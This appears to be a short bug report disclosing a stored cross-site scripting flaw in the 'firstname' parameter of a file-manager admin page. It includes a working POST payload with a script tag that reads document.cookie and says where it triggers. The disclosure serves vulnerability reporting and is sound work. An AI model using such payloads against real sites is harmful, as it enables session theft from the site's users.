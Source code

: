 BUG_Author: HaolunSong

Vulnerability File: /file_manager/admin/save_user.php

Parameter "firstname" (POST), exists stored cross-site scripting vulnerability

Payload:status=normal&emplnumber=2&firstname=<script>alert(document.cookie)</script>&lastname=3&region=zanzibar

![image](https://github.com/csbsong/bug_report/blob/main/xss1.png)

Payload will trigger when a user visits on http://localhost/file_manager/admin/admin_user.php

![image](https://github.com/csbsong/bug_report/blob/main/xss2.png)
